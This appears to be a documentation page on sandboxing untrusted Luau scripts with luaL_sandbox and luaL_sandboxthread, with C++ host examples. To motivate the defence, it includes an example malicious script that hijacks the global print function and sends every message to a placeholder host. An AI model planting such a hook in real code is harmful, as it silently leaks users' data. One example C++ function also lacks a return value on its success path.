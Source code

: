 # Sandboxing

## The Problem

Consider that you load untrusted Luau code into your codebase. By default, all code will share the same global environment. If a malicious script decides to modify the global environment, this will affect all other scripts. Consider the following example:

```luau title="Malicous Script"
-- Malicious script

local p = _G.print
_G.print = function(...)
	-- Still log things out so it appears as if all is normal:
	p(...)

	-- Intercept all print statements and send them off somewhere:
	someHttpThing:Send("http_somewhere_bad", {...})
end
```

```luau title="Victim Script"
-- Another script that runs after the malicous script

-- This seems to work, but the malicous script has intercepted
-- the message and sent it off to some malicous website.
print("Hello!")
```

## Sandboxing State

Sandboxing creates a safer environment for potentially untrusted Luau code. When sandboxing is enabled, all libraries, built-in metatables, and globals are set to read-only. There are also some performance benefits to sandboxing, and thus it is recommended to always turn it on.

To turn on sandboxing, call `luaL_sandbox(L)` _after_ opening up libraries and _before_ loading any Luau code.

```cpp title="Sandboxing" hl_lines="4"
lua_State* L = luaL_newstate();
luaL_openlibs(L);

luaL_sandbox(L);
```

Now, if a malicous script attempts to modify the global state, an error will be thrown:

```luau title="Malicous Attempt"
-- Throws an error: "attempt to modify a readonly table" (in this case, the _G global table)
_G.print = function(...) end
```

However, we have introduced an undesired side-effect: We can now no longer create _anything_ within the global scope. Consider the following snippet of unharmful Luau:

```luau
function add(a: number, b: number)
	return a + b
end
```

This would _also_ throw the same error: `"attempt to modify a readonly table"`. In this particular example, writing `local function add(a, b)` would solve the issue. But this is enough friction to become problematic, especially for existing code. Thus, sandboxing our Luau state is not the final step. We need to do one more thing.

## Sandboxing Threads

If we want our previous Luau code to work, we need to sandbox the _thread_ of our code too. We can do this with the `luaL_sandboxthread` function. This function will create a proxy to our global `_G`. This is done by creating a new table for `_G`, and then assigning a metatable which has an `__index` field pointing to the original `_G` table.

We want to do this _along_ with sandboxing our top-level state. Sandbox the Luau state with `luaL_sandbox`, and then sandbox each script execution with `luaL_sandboxthread`.

**Note:** This operation should be done per logical "script" and not for every single thread created. Doing this for every thread can lead to performance issues and also recursive depth errors, due to long `__index` chains to get back to the original `_G` table. Thus, only call `luaL_sandboxthread` for a thread that acts as the top-level state for a given script. Any threads created from this thread will also inherit this proxied global table.

```cpp title="Sandboxing Thread" hl_lines="7"
// Call run_script AFTER we have sandboxed our initial state
static int run_script(lua_State* L, const std::string& name, const std::string& bytecode) {
	// Create a thread to act as our script environment:
	lua_State* script = lua_newthread(L);

	// Sandbox it:
	luaL_sandboxthread(script);

	// Load our bytecode onto the script thread:
	int res = luau_load(script, (std::string("=") + name).c_str(), bytecode.data(), bytecode.length(), 0);

	if (res != 0) {
		// ...handle error
		return res;
	}

	// Run the script:
	int status = lua_resume(script, nullptr, 0);
	if (status != LUA_OK) {
		// ...handle error status or yield status
	}

	// Pop script thread off of 'L'
	lua_pop(L, 1);
}

static void example() {
	lua_State* L = luaL_newstate();
	luaL_openlibs(L);
	luaL_sandbox(L);

	std::string bytecode = compile_script(some_sourcecode);
	run_script(L, "example", bytecode);

	lua_close(L);
}
```

With this example, we can run multiple different scripts with `run_script`. Each script could modify their own global environment without affecting the global environment of other scripts. In other words, their environment has been sandboxed!

